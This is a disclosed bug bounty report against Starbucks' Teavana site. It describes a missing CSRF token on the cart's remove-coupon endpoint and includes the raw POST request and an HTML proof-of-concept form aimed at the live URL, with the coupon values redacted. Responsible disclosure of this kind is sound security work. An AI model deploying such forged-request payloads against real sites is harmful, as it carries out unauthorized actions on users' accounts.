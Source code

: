 # Missing CSRF Token On Remove Coupun From Cart

## Report Details
- **Report ID**: 227726
- **URL**: https://hackerone.com/reports/227726
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-05-11T16:03:57.693Z
- **Disclosed**: 2019-02-08T19:05:20.751Z

## Reporter
- **Username**: apapedulimu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hi,
When remove coupun, there's no CSRF token, at this time i use `███████` Coupun to reproduce it.

__Vuln Request__
```
POST /on/demandware.store/Sites-Teavana-Site/default/Cart-RemoveCoupon HTTP/1.1
Host: www.teavana.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: https://www.teavana.com/us/en/cart
Content-Length: 17
Cookie: some cookie
Connection: close

couponCode=██████████
```

__Poc Code__
```
<html>
<body>
<form action="https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Cart-RemoveCoupon" method="POST">
<input type="hidden" name="couponCode" value="███" />
<input type="submit" value="Submit request" />
</form>
</body>
</html>

```

Edit the `coupunCode` with name of the coupun.

Thanks, 
 If you need video, i will create one !

## Attachments
No attachments
